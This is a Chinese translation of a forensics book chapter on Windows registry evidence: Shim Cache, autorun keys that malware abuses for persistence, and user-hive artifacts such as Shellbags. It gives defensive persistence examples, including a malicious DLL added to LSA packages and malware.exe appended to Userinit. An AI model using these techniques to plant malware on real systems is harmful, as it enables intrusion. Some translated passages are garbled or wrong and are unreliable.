在活动系统上，访问HKLM \ Security \ Policy键的权限受到SYSTEM的限制。请参考以下网页上的“How To Determine Audit Policies from the Registry”以解码PolAdtEv值的内容：

- **前往网页获取**
  
    [support.microsoft.com/kb/246120](http://support.microsoft.com/kb/246120)
    

请参考“Windows操作系统中的众所周知的安全标识符”以获取常见SID的列表：

- **前往网页获取**
  
    [support.microsoft.com/kb/243330](http://support.microsoft.com/kb/243330)
    

#### **Shim Cache**

Shim Cache（也称为应用兼容性缓存）允许Windows跟踪可能需要特殊兼容性设置才能正确运行的可执行文件和脚本。该密钥的解码内容因Windows版本而异，可能包括以下数据：

- 可执行文件或脚本文件名和完整路径
- 标准信息上次修改日期
- 大小（字节）
- 文件是否实际在系统上运行

缓存存储在内核内存中，并在关机时序列化到注册表中。注册表键位置因Windows版本而略有不同：

- **Windows Vista、Windows 7、Server 2003和Server 2008** HKLM \
SYSTEM \ CurrentControlSet \ Control \ Session Manager \ AppCompatCache \
AppCompatCache
- **Windows XP** HKLM \ CurrentControlSet \ Control \ Session Manager \
AppCompatibility \ AppCompatCache

那么，应用兼容性缓存相对于跟踪程序执行的其他证据来源（例如Windows prefetch）可能更有用吗？一个优点是缓存可以跟踪比prefetch更多的项目：Windows 7和Server 2008维护最多1,024个缓存条目，而早期版本的Windows最多跟踪512个条目。 Windows还会在更改文件元数据和路径时处理并添加可执行文件到缓存中，无论文件是否已执行。换句话说，Shim Cache可以提供从未实际在系统上运行的可执行文件的证据。

有关每个Windows版本如何存储和维护此数据的其他信息，我们建议阅读Andrew Davis的出色白皮书“在法医调查中利用应用兼容性缓存”。 Andrew的附带免费实用程序ShimCacheParser.py能够从活动系统、获取的注册表文件和其他格式解码Shim Cache的内容。您可以在以下链接处下载白皮书和实用程序：

- **前往网页获取
  
    Shim Cache白皮书** [www.mandiant.com/library/Whitepaper_ShimCacheParser.pdf](http://www.mandiant.com/library/Whitepaper_ShimCacheParser.pdf)
    
    **Shim Cache解析器** [github.com/mandiant/ShimCacheParser](http://github.com/mandiant/ShimCacheParser)
    

以下表格提供了来自Windows 7（32位）系统的ShimCacheParser.py输出的摘录。请注意，由于Windows的每个版本实现Shim Cache的方式不同，因此此示例中不提供“最后更新”和“文件大小”的信息。

| Last Modified
 | Last Update | Path
 | File Size | Exec Flag |
| --- | --- | --- | --- | --- |
| 07/14/09 01:14:28 | N/A
 | C:\Windows\system32\PING.EXE | 
N/A | TRUE |
| 07/14/09 01:14:45 | N/A | C:\Windows\system32\whoami.exe | N/A | TRUE |
| 07/14/09 01:14:27 | N/A | C:\Windows\System32\net.exe | N/A | TRUE |
| 05/22/12 04:41:52 | N/A | c:\Windows\addins\rar.exe | N/A | TRUE |
| 11/20/10 21:29:12 | N/A | c:\Windows\addins\wce.exe | N/A | TRUE |
| 11/20/10 21:29:19 | N/A | C:\Windows\system32\findstr.exe | N/A | TRUE |
| 11/20/10 21:29:12 | N/A | c:\Windows\addins\nc.exe | N/A | TRUE |
| 01/24/12 13:45:36 | N/A | c:\Windows\addins\setMACE.exe | N/A | TRUE |
| 05/22/12 04:41:30 | N/A | c:\Windows\addins\wget.exe | N/A | TRUE |

[ShimCacheParser.py](http://shimcacheparser.py/)的输出保留了缓存中条目的原始顺序，这意味着行按照最近添加或更新的文件顺序呈现，从最近添加或更新的文件到最近添加或更新的文件。虽然没有正式的文档涵盖哪些活动会导致文件的ShimCache条目更新，但我们观察到文件执行和文件创建都会产生这种效果。

如前所述，ShimCache数据中跟踪的最后修改日期源自文件的标准信息属性。我们观察到，如果可执行文件的最后修改日期被时间戳篡改，则相应的ShimCache条目将反映被篡改的时间戳。此外，请回忆本章的NTFS部分，最后修改的时间戳不一定对应于文件的创建日期。根据文件复制到其目标路径的方式或在其中创建的方式，此时间可能源自其源系统或媒体。

#### **自动运行键**

自动运行键，也称为自动启动可扩展点或持久性机制键，可确保Windows可执行文件、DLL和其他组件在系统启动、用户登录和其他条件下自动加载。攻击者经常修改现有的自动运行注册表键或添加新键，以确保其恶意软件在系统启动时自动加载。因此，了解这些自动运行机制如何配置、它们的预期合法用途以及攻击者如何破坏它们非常重要。

对于软件开发人员和恶意软件作者来说，Windows提供了数百个基于注册表的持久性机制，其中一些仍然没有记录。提供所有已知键的全面列表超出了本节的范围。相反，我们专注于我们在自己的调查过程中看到攻击者最频繁针对的自动运行键。我们确定每个自动运行的证据、意图设计和功能，以确保您知道要查找哪些键以及如何分析它们。之后，我们提供可以应用于快速查看自动运行、识别可疑条目和进行分析的一般分析技术。

##### **Windows服务**
服务是Windows提供的最常见和广泛使用的持久性机制。服务旨在在后台运行，无需任何用户交互。它可以在系统启动、事件发生或手动启动时自动启动。它也可以在各种权限下运行，例如本地用户、域用户或系统帐户。一个平均的Windows系统将有数十个支持核心操作系统功能的合法服务——从事件日志记录到文件共享、预取和DHCP的所有内容。Windows设备驱动程序——用于与连接到系统的硬件交互的关键软件——也可以配置为作为服务加载（但在设计和加载方式上有几个技术区别）。最后，第三方应用程序可能安装服务，以确保某些组件始终在后台运行（打印和扫描驱动程序是常见的例子）。

服务通常在所有Windows系统上都有三个内置的登录帐户之一下运行：

- **Local System**对系统（或在域控制器上运行时对Active Directory域）拥有完全的、无限制的控制。如果在此上下文下的服务被攻击者攻破，攻击者可以做任何事情。
- **Network Service**具有与普通用户组成员类似的特权，并可以使用系统的机器帐户通过网络进行身份验证。
- **Local Service**是最严格的上下文，不能像机器帐户那样访问网络资源。当然，您也可以配置服务在任何本地或域帐户下运行，只要其权限足以使相应的服务应用程序成功执行即可。
- 注：
  
    Microsoft警告不要使用特权域帐户，特别是域管理员，运行服务。如果攻击者可以控制服务或窃取其凭据，他们可以立即利用这些提升的特权。这经常发生在SQL服务器、Web服务器或其他应用程序服务被错误配置的情况下。
    

那么服务在注册表中如何配置呢？每个服务将在HKLM\CurrentControlSet\services\{servicename}\下拥有自己的值和子键集，其中{servicename}表示给定服务的“短”名称。每个服务都可以有各种值和子键来控制它们的行为，但您应确保熟悉以下基本值：

- **上网获取**
  
    [微软提供了每个服务键值及其在support.microsoft.com/kb/103000上的影响的详细信息。](http://xn--support-q33kv0ae3fx5bxxg90e38eqrqjh7a5xopxnf5vl16n2hza.microsoft.com/kb/103000%E4%B8%8A%E7%9A%84%E5%BD%B1%E5%93%8D%E7%9A%84%E8%AF%A6%E7%BB%86%E4%BF%A1%E6%81%AF%E3%80%82)
    
- **DisplayName** 服务的“长格式”描述性名称。可以长达256个字符，包括空格和混合大小写。
- **Description** 可描述服务功能或目的的注释。
- **ImagePath** 要执行的可执行文件路径（对于服务）或.sys文件路径（对于驱动程序）。
- **Start** 驱动程序或服务的加载方式和时间。此键的数据范围为0-4。对于大多数恶意软件，这将被设置为2（自动）。
    - 0x0 引导（由内核加载程序-仅限驱动程序）
    - 0x1 系统（由I/O子系统在内核初始化期间-仅限驱动程序）
    - 0x2 自动（由服务控制管理器在启动时-对于服务）
    - 0x3 手动（用户或应用程序必须显式请求启动服务）
    - 0x4 禁用
- **Type** 指定几种服务类型之一，最常见的如下：
    - **0x1** 驱动程序
    - **0x2** 文件系统驱动程序
    - **0x10** 在其自己的进程中运行的服务
    - **0x20** 共享进程的服务
- **DependOnGroup或DependOnService** 指定其他服务组和必须在服务加载和运行之前启动的个别服务。
- **Group** 指定此服务所属的组。同一组中的服务将一起启动。

如果您查看任何给定Windows系统上几个服务键的这些值，您会注意到它们中的大多数都配置了相同的ImagePath-C:\\WINDOWS\\system32\\svchost.exe。同样，如果您查看进程列表，您将发现许多在我们之前提到的网络服务、SYSTEM等用户特权上下文下运行的svchost.exe实例。这里发生了什么？

大多数Windows服务是作为DLL实现的，而不是独立的可执行文件。为了正确加载和执行这些DLL中的代码，Windows依赖于一个托管进程svchost.exe，它被配置为ImagePath。DLL本身必须以特定的方式设计，以确保svchost.exe可以将其加载为服务-例如，它必须有一个名为ServiceMain的导出函数，定义了其入口点。

以下注册表子键和值指定要由托管ImagePath加载的DLL（请参见图12-15）：

HKLM\\CurrentControlSet\\services\\{servicename}\\Parameters\\ServiceDll


由于服务可能执行的各种方式，您需要确保在确定服务是否可以配置为加载恶意文件时，同时检查ImagePath和ServiceDll（如果存在）。在以前的调查中，我们发现攻击者通常更喜欢将恶意软件安装为ServiceDll，这样它就会被svchost.exe加载——在进程列表中很容易隐藏，并与所有其他类似加载的服务混合在一起。攻击者可以创建一个新的服务来实现这一点，也可以简单地重新配置现有但禁用或非关键性服务的ServiceDll参数来加载其恶意软件。

##### **服务的运行时分析** 
Windows服务控制管理器（SCM），services.exe，在启动时负责启动Windows服务（基于前面提到的注册表键的配置）。Windows提供了几个命令，您可以使用它们从SCM检索信息；一些依赖Windows API的实时响应工具包使用这些方法来枚举服务。

您可以使用“sc”控制台命令与正在运行的Windows系统上的服务控制管理器进行交互。例如，“sc query”（或“sc queryex”，用于扩展详细信息）将枚举系统上当前配置的服务及其状态（例如运行或禁用）。图12-16说明了“sc query”命令输出的示例。 “sc”命令还可以在本地系统或远程系统上启动，停止和创建服务（前提是您有能力使用管理员权限建立与主机的网络登录）。有关如何使用“sc”命令的详细信息，请访问以下网页：

- **在Web上获取它**
  
    [technet.microsoft.com/en-us/library/cc754599.aspx](http://technet.microsoft.com/en-us/library/cc754599.aspx)
    

您还可以从运行菜单中调用服务管理控件，services.msc，以查看和编辑现有服务的配置。


“sc” 命令和 services.msc snap-in 的一个显著限制是它们都不允许您查看或编辑任何托管服务的 ServiceDLL 值。但是，您可以使用注册表编辑器（如 regedit）来查看或编辑 ServiceDLL 参数。

如果您通过 Windows API 或解析内存映像获得了进程列表，您还可以查看运行的服务 - 每个服务的 ImagePath 将对应于运行进程的名称，其父进程通常是 services.exe。但是所有在 svchost.exe 实例下运行的组合托管服务怎么办？您如何知道哪个 svchost.exe 的 PID 运行哪个服务？

多个内存分析工具，如 Volatility Framework，可以解析内存中的服务配置数据，并将运行服务名称与进程 ID 相关联。您还可以使用 tasklist /svc 控制台命令（原生于 Windows）列出每个 svchost.exe 进程下运行的服务。例如，在图 12-17 中，请注意两个服务在 svchost.exe（PID 532）下运行：RpcEptMapper 和 RpcSs。

##### **Run 和 RunOnce 键**
 “Run” 键很简单直观 - 它们指向将在启动时启动的可执行文件（如果在 HKLM hive 中）或在用户登录时启动（如果在用户的 NTUSER.DAT hive 中）。以下是四个常见的 Run 键：

- HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
- HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
- HKEY_USERS\{SID}\SOFTWARE\Microsoft\Windows\CurrentVersion\
RunOnce
- HKEY_USERS\{SID}\SOFTWARE\Microsoft\Windows\CurrentVersion\
RunOnce


这些键下的值指定了运行项的（偶尔）描述性名称，它们各自的数据提供了可执行文件的路径和任何所需的参数。例如，图12-18展示了HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run键下的七个值，它们每个都将在启动时执行。

类似地，RunOnce正如其名字所示。添加到此键的值将执行一次，随后将被删除。

##### **Active Setup**
 Active Setup是Windows提供的一种机制，用于在系统的所有用户之间方便地进行软件安装和更新。自Windows 98以来，它一直存在，并仍被许多合法应用程序使用，以及由试图保持持久性的恶意软件使用。Active Setup键位于两个位置：

- HKLM\SOFTWARE\Microsoft\Active Setup\Installed Components
- HKEY_USERS\{SID}\SOFTWARE\Microsoft\Active Setup\Installed
Components

如果您在典型系统上查看\Installed Components\键下，您会发现它包含以GUID值命名的子键。应用程序通常生成和使用这些GUID以避免意外覆盖彼此的设置。然而，攻击者经常变得懒惰，并在多代利用这些键的恶意软件中重复使用相同的GUID。您可以尝试研究这些GUID（我们通常尝试在Google上搜索它们），并发现它们对应于已在公共沙盒站点、防病毒公告、安全博客或用户论坛中发现和记录的恶意软件，这可以使研究和识别已知的坏软件更容易。


对于合法的Active Setup项目，给定的GUID子键可以有多个值，例如Version、IsInstalled和StubPath。[图12-19以.NET](http://xn--12-19-tk2hp79b.net/) Framework为例，展示了一个Active Setup密钥。这些子值有助于支持Active Setup密钥的预期功能——在用户登录时，应用程序可以检查HKLM中是否存在给定的Active Setup密钥，比较值，并确定下一步要执行的操作（例如安装或更新本身）。然而，在这些密钥中最关键的值——也是攻击者通常使用的唯一值——是StubPath。这个值中的数据包含到可执行文件的路径以及任何所需的参数。因此，恶意软件作者可以在\Active Setup\Installed Components\{GUID}\下生成一个密钥，设置StubPath的值，从而确保他们的文件将在系统启动或用户登录时运行（取决于所选择的Hive）。

- 注意：


##### **AppInit_DLLs**
 AppInit_DLLs 注册表值包含一个 DLL 列表，每当启动任何链接到 user32.dll 的用户模式应用程序时，都会自动加载。如果攻击者向此值添加恶意 DLL，则其代码将有效注入到随后启动的所有应用程序中：

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows\
AppInit_DLLs

Windows 的版本和某些配置设置都可能影响系统是否会实际加载指定为 AppInit_DLLs 中的文件。您可以通过将注册表值 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\LoadAppInit_DLLs 设置为 0x0 来全局禁用加载所有 AppInit_DLLs。在 Windows Vista、7 和 Server 2008 中，您还可以通过将 RequireSignedAppInit_DLLs 值（在同一键中）设置为 0x1 来要求所有已加载的 AppInit_DLLs 都具有数字签名。在 Server 2008 R2 上，此要求现在已默认启用。

##### **LSA 包**
 三个注册表键配置了 Windows 本地安全性 Authority(LSA) 以及它如何处理身份验证事件。Windows 在系统启动时自动加载这些值中指定的 DLL：

- HKLM\System\CurrentControlSet\Control\Lsa\Authentication Packages
- HKLM\System\CurrentControlSet\Control\Lsa\Notification Packages
- HKLM\System\CurrentControlSet\Control\Lsa\Security Packages

请注意，配置为加载为 LSA 包的恶意软件不一定需要实现任何 LSA 功能-它只需要成功加载即可导致执行恶意代码。

身份验证包实现了在各种协议下对用户进行身份验证所需的代码。此值的常见默认值包括 msv1_0（NTLM 本地和域登录）、kerberos（Kerberos 身份验证）、wdigest（摘要身份验证）和 tspkg（终端服务单一登录包）。安全包实现了操作系统识别的底层身份验证安全协议，并且可以具有与身份验证包类似的默认值。最后，当设置或更改密码时，将调用通知包。此键的常见默认数据包括 FPNWCLNT（NetWare 文件和打印服务）、RASSFM（远程访问子身份验证）、KDCSVC（Kerberos 密钥分发中心服务）和 scecli（安全配置引擎客户端）。Microsoft 在 [technet.microsoft.com/en-us/library/cc951687.aspx](http://technet.microsoft.com/en-us/library/cc951687.aspx) 上记录了这些包。

每个值都是 REG_MULTI_SZ 类型，这意味着数据将是一组以空终止的字符串。此外，可以在不提供 .DLL 文件扩展名的情况下引用包。例如，如果 Security Packages 设置为 wdigest msv1_0 kerberos，则 Windows 将自动尝试从 %SYSTEMROOT%\system32 加载 wdigest.dll、msv1_0.dll 和 kerberos.dll。

因此，攻击者可以利用这些键来实现恶意软件的持久性。例如，在身份验证包值的 REG_MULTI_SZ 列表中添加“evil”将导致系统在启动时自动加载 %SYSTEMROOT%\system32\evil.dll。高度复杂和广为人知的 Flame 恶意软件使用此持久性机制，通过将其文件名（默认为 mssecmgr.ocx）的引用添加到身份验证包值中。

##### **浏览器帮助对象** 
浏览器帮助对象(BHOs)用作 Internet Explorer 的插件或插件。它们具有与浏览器显示的 web 内容交互和操作的能力，以及扩展 Internet Explorer 用户界面的能力。如果您曾经不得不修复朋友或亲戚的计算机，您可能已经遇到了“有用”的浏览器工具栏的 BHOs，这些工具栏随软件安装包捆绑提供。因为 BHOs 被 Internet Explorer 自动加载，所以它们是恶意软件的流行持久性机制，特别是“广告软件”和“骗子软件”，这些软件可能在网页内容中嵌入广告，将受害者重定向到其他网站，或者监视浏览器使用情况。

它们是如何工作的？BHO DLL 是组件对象模型(COM)组件，每次新的 iexplore.exe 实例执行时，它们都会加载到 Internet Explorer 进程空间中。Internet Explorer 提供了钩子，允许这些加载的 BHOs 与浏览器功能的各个方面交互。所有 COM 对象，包括 BHO，都具有作为唯一标识符的类 ID (也称为 CLSID，基本上是 GUID)。您可以通过查看以下键来枚举系统上的 BHOs：

HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper
Objects\{CLSID}\

接下来，对于每个感兴趣的 CLSID，请参阅 HKEY_CLASSES_ROOT\CLSID\{CLSID}\InprocServer32\(Default)。此注册表值的数据将指向与 COM 对象相关联的 DLL 文件。

- 注意：
  
    常见 BHO 的 CLSID（以及一些恶意软件）通常在系统之间保持一致。因此，如果遇到未知的 CLSID，请尝试在 Google 上搜索 CLSID。当然，攻击者始终可以在合法 BHO 的 CLSID 下安装恶意 DLL，因此您仍然应检查相关文件是否具有数字签名、具有已知的好哈希值或可以进行分类和验证。
    

Internet Explorer 7 及更高版本还提供了一个菜单选项“管理添加-Ons”，可用于查看和启用或禁用单个 BHO。

##### **Shell 扩展** 
Windows 资源管理器的 shell 扩展是 Internet Explorer 的浏览器帮助对象。它们提供了扩展 Windows 资源管理器的功能，例如右键单击文件或文件夹时出现的上下文菜单项。与浏览器帮助对象一样，shell 扩展是 COM DLL，因此必须实现某些接口并具有特定的导出函数。

每个 shell 扩展 COM DLL 都将在键和值 HKCR \ CLSID \ {CLSID} \ InprocServer32 \（默认）下列出。 shell 扩展还必须注册自己以处理它想要扩展的任何类型的资源管理器项目 - 文件、目录、驱动器、打印机等。每个项目的处理程序都列在 HKCR \ {子键} \ shellex \ 下。

- 注意：
  
    Windows 提供了一个选项，可以通过键 HKLM \ Software \ Microsoft \ Windows \ CurrentVersion \ Shell Extensions \ Blocked 来黑名单特定的 shell 扩展 CLSID。同样，如果将 HKLM \ Software \ Microsoft \ Windows \ CurrentVersion \ Policies \ Explorer \ EnforceShellExtensionSecurity 设置为 1，则 Windows 只会加载在键 HKLM \ SOFTWARE \ Microsoft \ Windows \ CurrentVersion \ Shell Extensions \ Approved \ 下指定的 shell 扩展。
    

MSDN 文章“注册 Shell 扩展处理程序”提供了更多关于在 Windows 系统上配置 shell 扩展的不同方式及其相关的子键的详细信息。

- **在 Web 上获取它**
  
    [msdn.microsoft.com/en-us/library/windows/desktop/cc144110(v=vs.85).aspx](http://msdn.microsoft.com/en-us/library/windows/desktop/cc144110(v=vs.85).aspx)
    

##### **Winlogon GINA** 
图形身份验证和身份验证（GINA）服务在 Windows 2000、XP 和 Server 2003 中存在，旨在允许第三方软件开发人员扩展和自定义 Windows 登录提示。目的主要是支持替代身份验证机制。利用此功能与实现所需的导出函数的 DLL 和配置 GinaDLL 注册表值指向该文件一样简单。winlogon.exe 进程会在登录时自动加载此文件：HKLM \ Software \ Microsoft \ Windows NT \ CurrentVersion \ Winlogon \ GinaDLL。

毫不奇怪，攻击者很快发现可以滥用这个功能。恶意 GINA DLL 可以有效地执行 Windows 身份验证中间人攻击。我们遇到的大多数 GINA 恶意软件只是将提供在登录提示中的 Windows 凭据记录到输出文件中。

Microsoft 消除了自定义 GINA 提供程序，取而代之的是 Windows Vista、Server 2008 和更高版本中的新凭据提供程序服务模型。

##### **Winlogon Notification** 
类似于 GINA，WinLogon Notify 包是 Windows 2000、XP 和 Server 2003 中遗留的登录系统的另一个组件。在下面的注册表值中列出的 DLL 将从 winlogon.exe 进程接收有关用户登录、注销、屏幕锁定和屏幕保护程序启动等事件的通知：

HKLM \ Software \ Microsoft \ Windows NT \ CurrentVersion \ Winlogon \ Notify

通过将此注册表值设置为指向恶意 DLL，攻击者可以在这些 Winlogon 事件发生时加载和执行恶意代码。Microsoft 在 Windows Vista、Server 2008 和更高版本中消除了 Winlogon Notify 功能。

##### **Winlogon Shell** 
Windows 允许用户定制在用户登录时加载的 shell。默认情况下，它设置为 Explorer.exe；但是，您可以修改 Winlogon \ Shell 注册表值以指向任何可执行文件。使用自定义 shell 相对较少见，因此分析师应花时间验证这些键指向的任何可执行文件：

- HKLM \ SOFTWARE \ Microsoft \ Windows NT \ CurrentVersion \ Winlogon \
Shell
- HKEY_USERS \ {SID} \ SOFTWARE \ Microsoft \ Windows NT \ CurrentVersion \
Winlogon \ Shell

请注意，“WinLogon \ Shell”键和值可以存在于 HKLM 和各个用户蜂巢下，允许每个用户自定义启动 shell。

##### **Winlogon Userinit** 
Winlogon 进程会自动执行 Userinit 注册表值指定的可执行文件：

HKLM \ SOFTWARE \ Microsoft \ Windows NT \ CurrentVersion \ Winlogon \ Userinit

默认情况下，它设置为 userinit，这确保 %SYSTEMROOT%\system32\userinit.exe 将被执行。反过来，userinit.exe 负责加载登录和组策略脚本、其他几个自动运行程序和资源管理器 shell。但是，可以将其他可执行路径和文件名（由逗号分隔）附加到此值。

例如，如果 Userinit 设置为 userinit，“C:\path\to\malware.exe”，则恶意软件.exe 将在用户登录时自动执行。

##### **识别恶意自动运行** 
查看可以为了恶意软件持久性而劫持的大量注册表键的列表可能有点令人生畏（或令人沮丧）。在众多自动运行键中查找可疑条目 - 不寻常路径中的文件、拼写错误、破碎的英文描述或类似的异常 - 是许多分析师最初尝试的方法。这种方法可能很危险，尤其是考虑到第三方应用程序的巨大多样性，其中一些可能不是良好软件开发实践的“理想”模型，它们会在恶意软件使用的与恶意软件相同的自动运行键下安装自己。反之，考虑到有针对性的攻击者可能会特别小心，以确保恶意软件被配置为使用与合法 Windows 组件混合的键和文件名来保持持久性。

为了说明这一点，请看下面列出的四个 Windows 服务。仅基于提供的信息，您认为哪个（如果有）是恶意的？提示：至少有一个是。

| ServiceName: hpdj
Description: [none]
ImagePath: C:\Documents and Settings\johncd\Local Settings\Temp\hpdj.exe |
| --- |
| ServiceName: iprip
Description: Listens for route updates sent by routers that use the Routing Information Protocol
ImagePath: C:\Windows\system32\svchost.exe
ServiceDll: C:\Windows\system32\iprinp32.dll |
| ServiceName: rfalert
Description: A module which sends alerts and notifications of monitered events ImagePath: D:\Apps\RightFax\Bin\Alertmon.exe |
| ServiceName: synergy
Description: Allows another computer to share its keyboard and mouse with this computer
ImagePath: C:\Program Files\Synergy\synergyc.exe |

您可能已经注意到rfalert服务在其描述中有一个拼写错误（“monitered”与“monitored”）。 hpdj服务出于很多原因看起来可疑，特别是因为它没有描述，并且从用户配置文件的临时目录运行。 “synergy”服务存在标点符号错误（“it's”与“its”）。但您可能会惊讶地发现，这三个服务实际上都是由第三方应用程序创建的合法服务（其中最奇怪的一个是hpdj，它是HP打印机软件的一个产物）。在这个例子中，iprip服务是恶意的。服务名称和描述与内置于Windows中的合法iprip服务完全相同。但是，攻击者修改了ServiceDll以指向恶意文件iprinp32.dll，而不是正确的DLL文件名iprip.dll。

因为“肉眼观察”很明显存在风险，所以有什么更一致、可靠的方法？鉴于一组基于注册表的持久性机制，也就是注册表键和它们设计自动加载的关联文件，我们建议采取以下步骤：

1. 排除由受信任发行者签名的持久二进制文件，但是不完全排除签名文件。我们稍后会详细讨论。
2. 排除在感兴趣的时间窗口之外创建的持久项（如果对时间信息有高度信心，则可以使用注册表键的最后修改时间以及关联文件的MACE时间等时间信息来源）。
3. 检查剩余持久二进制文件的路径。这可能有助于在可疑位置识别恶意文件，例如在用户的临时文件目录中运行的持久可执行文件。它还可以允许您排除攻击者不太可能使用的路径中的持久二进制文件。这应该根据分析师的判断并基于对攻击者战术和程序的现有了解来执行。攻击者倾向于更频繁地使用常见目录，例如%SYSTEMROOT%中的路径，而不是专门用于晦涩的第三方应用程序的深度嵌套目录。当然，对于已经对受感染的系统或环境进行了广泛侦察的复杂攻击者可能会故意利用这些路径，因此要保持警惕。
4. 使用已知良好软件的存储库（例如Bit9文件顾问）或已知的坏文件（例如VirusTotal）研究任何剩余的持久二进制文件的MD5哈希值。
5. 将任何剩余的“未知”与已知配置进行比较，例如用于在环境中安装系统的“黄金镜像”。

当然，数字签名信息和文件哈希值都没有存储在注册表中，必须通过分析持久文件本身来获取。如果手动进行这个过程将会很繁琐，幸运的是，有几个工具可以自动化这个过程。我们将在本节后面介绍注册表和自动运行分析工具；然而，作为一个快速参考，我们建议使用SysInternals Autoruns实用程序和Mandiant Redline（使用“services”和“persistence”收集器模块）。这两个工具都将枚举Windows服务，收集数字签名信息，并计算每个服务二进制文件的MD5哈希值。

图12-21显示了Mandiant Redline工具中持久性数据的视图。请注意，该工具显示来自注册表和文件系统的数据组合，以便进行审查。


请记住，“信任”数字签名是一种数据缩减技术，旨在帮助集中您的分析和审查工作。数字签名并非万无一失！根据我们的调查经验，精通攻击者一直在针对数字证书和代码签名基础设施攻击越来越多的受损组织。这些资产可以 - 并且已经 - 用于签署恶意软件。这并不意味着您应该自动不信任任何已签名的文件;相反，如果有其他支持性证据指示，应开放对签名滥用的可能性。

同样，您不应该期望所有合法的持久文件 - 如用于支持Windows服务的文件 - 总是被签名。这对于第三方应用程序尤其如此，但我们甚至看到一些未经签名或在更新或服务包后“失去”签名数据的核心操作系统文件。但是，请注意，在Vista 64位和之后的Windows版本中，所有驱动程序都必须进行数字签名。

早些时候，我们提到使用时间线分析来帮助消除在已知攻击者活动期间之外创建的自动运行键和相关文件。我们还可以以其他方式使用时间元数据来识别可疑的持久性机制。例如，如果在系统上进行时间线分析注册表键和文件元数据时，您观察到已知的自动运行键在感兴趣的时间段内上次修改，则可能要检查该键指向的文件以确定它是否合法。相反，如果您通过其他方式识别出已知的恶意文件，则应检查任何自动运行键是否按名称或完整路径引用它 - 无论上次修改时间如何。这些方法可以帮助您利用时间线分析而不会出现“隧道视野” - 例如，过于专注于单个已知时间框架，以至于您会错过其他证据。

说到时间，记住注册表 *键* 保存最后修改日期，而不是值或数据。不幸的是，一些自动运行键被配置为在操作系统或其他软件经常“触及”的路径内的值。例如，在HKLM \ Software \ Microsoft \ Windows \ CurrentVersion \ Run \中的值直接放在 \ Run \ 键下，这意味着使用此机制添加或更改任何自动运行将更新此路径的唯一可用最后修改时间。 Windows服务的根路径也是如此（例如，HKLM \ System \ CurrentControlSet \ Services \ {servicename} \）。Windows更新和服务包经常“触及”所有服务键，更新其最后修改时间。幸运的是，许多服务都存在参数和安全子键，这些子键受此类更新的影响较少。因此，它们的最后修改日期可以更具有弹性，并具有更多的法医学意义。

最后，如果您已经通过注册表分析确定了恶意服务的证据，请不要忘记查看系统事件日志。服务控制管理器可以记录诸如服务创建、停止和启动事件等事件。警告（像总是一样）：请注意，这仅适用于服务 - 系统事件日志不会记录与本章讨论的其他基于注册表的持久性机制相关的事件。同样，攻击者可以在不使用SCM的情况下配置服务，从而省略了将否则会记录的服务创建事件。同样，要注意，持久性恶意服务通常会在启动时启动并在关机时停止，这意味着在系统事件日志中记录的每个服务启动和停止事件可能不是攻击者活动的反映，而是系统使用的正常周期。然而，我们发现识别出与已知的坏服务相关的最早已知和最近记录的事件对于更好地确定妥协时间范围非常有用。有关服务活动生成的日志条目类型的更多信息，请参见本章的“事件日志”部分。

#### **用户Hive注册表键**

与我们到目前为止讨论的注册表证据相比，用户Hive包含特定于Windows系统上个人帐户的设置和行为的证据。这可以包括从以前执行的应用程序的记录到通过Windows资源管理器访问本地和远程目录时创建的工件。

那么，如果每个用户都有自己的注册表Hive（s），您如何选择要查看哪些？在试图进行审查和集中您的工作时，“全部”可能不是理想的选择。您的第一个优先事项应该是获取和分析给定系统上任何受损帐户的NTUSER .DAT和USRCLASS .DAT Hive。如果您的线索仅限于系统上的可疑活动时间段（可能通过事件日志或其他证据来源），则应考虑审核包含在同一期间内最后修改的键的任何用户Hive。最后，请注意不要排除机器帐户，例如Service Control Manager使用的NetworkService和LocalSystem（两者都使用），在您的分析范围内。我们经常看到恶意软件在这些帐户的上下文中执行，并在相应的注册表Hive中产生证据。

在本节中，我们重点介绍了我们在事件响应调查中发现的几个特定于用户的键：Shellbags、UserAssist、MUICache、最近使用（MRU）、TypedURL和TypedPaths。

##### **Shellbags** 
您是否注意到Windows资源管理器会始终使用完全相同的大小、位置和视图配置（包括可见列）恢复先前打开的窗口？如果是，您就已经看到了Shellbags的工作原理：支持此功能所需的数据存储在用户配置文件注册表Hive中的一组特殊键中。每次用户在资源管理器中浏览到本地或网络文件夹时，这些键都会设置;此外，即使随后删除了目录，它们也会保留。Shellbag注册表键位于以下位置：

**Windows Vista、7、Server 2008**

- HKEY_USERS\{SID}_Classes\Local Settings\Software\Microsoft\Windows\
Shell\

**Windows XP和Server 2003**

- HKEY_USERS\{SID}\Software\Microsoft\Windows\Shell\
• HKEY_USERS\{SID}\Software\Microsoft\Windows\ShellNoRoam\

分析shellbag键可以为调查人员提供以下信息：

- 通过资源管理器访问的完整目录路径
- 访问每个路径的日期和时间，通过在某些情况下参考相应shellbag键的最后修改时间获得（请参阅以下注释）
- 记录在shellbags中跟踪的每个路径的修改、访问和创建时间，*根据访问发生的时间*

当试图确定攻击者是否访问了特定目录以窃取数据、分期恶意文件或仅仅浏览可用内容时，这些证据可能非常有价值。图12-22提供了一个由我们后面在本节中介绍的Python脚本shellbags.py生成的解码的shellbag证据的示例。


注意壳钥匙数据内解码日期与键本身的最后修改时间之间的差异。此外，由于壳钥的复杂结构，最后修改时间可能并不总是对应于访问路径发生的时间。Dan Pullega在他的4n6k博客中对壳钥进行了出色的分析，进一步解释了这些挑战：www.4n6k .com/2013/12/shellbags-forensics-addressing.html。

壳钥及其行为的结构本身就是一个相当复杂的主题。“使用壳钥信息重建用户活动”，由Zhu、Gladyshev和James撰写，是最早彻底记录壳钥工作原理的研究之一，强烈推荐阅读。Chad Tilbury在他的博客文章“计算机取证物件：Windows 7壳钥”中提供了更近期的关于壳钥和Windows 7的见解。

要对壳钥值进行分析，您可以使用许多免费和商业工具。以下免费工具被广泛使用，可以在获取的NTUSER.DAT或USRCLASS.DAT注册表文件中提取和解码壳钥。它们的输出非常适合整合到攻击者活动的时间轴中：

- **获取地址**
  
